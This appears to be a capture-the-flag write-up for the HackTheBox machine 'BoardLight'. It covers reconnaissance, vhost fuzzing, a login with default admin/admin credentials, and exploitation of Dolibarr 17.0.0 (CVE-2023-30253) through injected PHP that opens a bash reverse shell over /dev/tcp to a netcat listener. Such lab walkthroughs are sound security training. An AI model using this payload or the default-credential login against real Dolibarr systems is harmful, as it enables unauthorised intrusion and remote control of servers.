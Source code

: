 ```yaml
---
description: Linux | easy | Dolibarr (v17.0.0) | CVE-2023-30253 | Mysql
---
```


# BoardLight



## Reconnaissance

```bash
nmap 10.129.11.23 -sV -sC 
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Lets Check the Http server.&#x20;

We can see the domain name in the front page :&#x20;

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Lets update the Hosts File&#x20;

```bash
echo "10.129.11.23 board.htb" | sudo tee -a /etc/hosts
```

## Enumeration

no usefull directories was found on board.htb with gobuster  so lets try to find some vhost.&#x20;

```bash
ffuf -w /opt/useful/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt:FUZZ -u http://board.htb:80/ -H 'Host: FUZZ.board.htb' -mc 200 -fw 6243
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

## Initial Foothold

so lets add this vhost to our hosts file too .&#x20;

```bash
echo "10.129.11.23 crm.board.htb" | sudo tee -a /etc/hosts
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

First things first lets try to enter the default credentials of the version 17.0.0 (admin/admin)

we are in  :&#x20;

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

its time to look for an active CVE on this version.&#x20;

We got one RCE [https://www.swascan.com/security-advisory-dolibarr-17-0-0/](https://www.swascan.com/security-advisory-dolibarr-17-0-0/)

So in order to exploit it we have to create a new page and inject a php code. lets try to inject a reverse shell. lets setup our netcat on port 4444 and the inject the following php code in a new page.&#x20;

```php
<?PHP shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.20/4444 0>&1'"); ?>
```

```bash
nc -lnvp 4444
```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

and then when we use the preview button of our new page we trigger the reverse shell :

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

we are now www-data let see if we can find some usefull infos .
